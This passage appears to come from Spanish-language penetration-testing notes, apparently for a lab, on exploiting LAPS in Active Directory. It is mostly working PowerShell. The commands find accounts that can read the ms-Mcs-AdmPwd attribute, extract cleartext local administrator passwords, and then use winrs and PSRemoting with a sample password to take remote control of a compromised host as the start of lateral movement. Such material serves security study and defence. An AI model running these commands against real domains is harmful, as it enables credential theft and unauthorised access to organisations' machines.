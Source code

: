 En un ordenador, si se está utilizando LAPS, se puede encontrar una biblioteca AdmPwd.dll en el directorio ``C:\Program Files\LAPS\CSE\``.

```
### Para encontrar a los usuarios que pueden leer las contraseñas en texto claro máquinas en OUs
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}

Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')}
```

- Buscar cuentas o grupos con derechos de acceso ``GenericAll, AllExtendedRights`` contra un equipo de destino configurado con LAPS o ``ReadProperty`` sobre el atributo ``ms-MCS-AdmPwd``.

```
$group = Get-DomainGroup -Identity "LAPS Readers"
Get-DomainObjectAcl -Identity LAPS09 -ResolveGUIDs  |?{$_.SecurityIdentifier -eq $group.objectsid}
```

```
Para enumerar OUs donde LAPS está en uso junto con los usuarios que pueden leer las contraseñas en texto claro
### Active Directory module
Get-LapsPermissions.ps1

### LAPS module 
Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1 
Find-AdmPwdExtendedRights -Identity OUDistinguishedName
```
### Explotación

```
### PowerView
Get-DomainObject -Identity <targetmachine$> | select -ExpandProperty ms-mcs-admpwd

### Active Directory module
Get-ADComputer -Identity <targetmachine> -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd

### LAPS module
Get-AdmPwdPassword -ComputerName <targetmachine>
```

Luego de la explotación, se puede usar  ``winrs`` o ``PSRemoting`` para conectarnos como Administrador Local del host comprometido:

```
### Winrs
winrs -r:us-mailmgmt -u:.\administrator -p:t7HoBF+m]ctv.] cmd

### PSRemoting
$passwd = ConvertTo-SecureString 't7HoBF+m]ctv.]' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("us-mailmgmt\administrator", $passwd)
$mailmgmt = New-PSSession -ComputerName us-mailmgmt -Credential $creds
$mailmgmt
```
# Lateral Movement
